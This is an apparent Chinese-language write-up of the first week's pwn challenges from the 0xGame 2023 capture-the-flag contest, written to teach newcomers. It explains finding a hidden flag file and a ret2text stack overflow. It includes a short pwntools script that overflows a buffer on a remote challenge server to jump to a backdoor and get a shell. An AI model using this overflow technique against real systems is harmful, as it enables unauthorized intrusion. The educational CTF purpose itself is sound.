 # 0xGame 2023 Pwn Week1 WriteUp

## 前言

本次新生赛也是笔者第一次出题，确实在过程中发现了一些可以改进的地方，而且从解题情况来看确实出难了，确实对新人及其不友好。在这里给各位磕一个（咚

这里也带一笔入坑指南，之前觉得隔壁moe的比我写得好我就没写（

入门期的pwn题基本都围绕着linux中ELF程序栈溢出相关的利用，这种程序一般都用C语言来编写。

因而pwn的基础就多了起来：
+ C语言简单语法（到循环和函数即可，`malloc`及`glibc`堆是新手期之后的内容）
+ `linux`命令行简单使用（`ls`查看目录，`cat`查看文件，`/bin/sh`拿`shell`等）
+ linux程序栈的结构，变量是存储在栈上还是bss段上，库函数的调用过程。

不过这些都是计算机最底层的原理，也是二进制安全的必经之路。

下面正式进入题目WP。

## 找不到且不对劲的flag

> 需要了解基本linux命令，linux隐藏文件

TL;DR：`ls -al && cd .secret && cat flag`

后话：应该在连上之后给个提示语的，比如`Here's your linux shell, try to find my secret.`之类的。

本题连上之后就会给一个linux的shell，你需要做的是在机器上找flag。

明面上的flag显然是假的，结合hint`真flag被我藏起来了。你知道linux下怎么藏东西吗？`想到隐藏文件，本题就通了。

## 永远进不去的后门

> aka ret2text
>
> 需要了解一点点x86汇编，程序栈，ret2text
>
> hint: 显然世界上没有一个数可以满足x%2023=2023，但这个gets……那不就等于我想让他干什么就干什么？比如在[REDACTED]之后直接进入if条件成立的分支？

年轻人的第一道pwn。

call 指令一般在调用函数时使用，会将下一条指令地址push入栈，然后转到被调用函数执行，执行完成后把地址pop出来，继续执行原函数内容。

假设我们有修改这个被保存到栈中地址的能力，那我们显然就可以控制程序的执行流程了。

而`gets`可以输入以回车结尾，无限长度的内容。

这个题给了后门，直接跳过去即可。

```py
from pwn import *
context(arch="amd64",os="linux",log_level="debug")
s=remote("8.130.35.16",51002)
s.recv()
s.send(b"a"*0x48+p64(0x401298))
s.interactive()
```
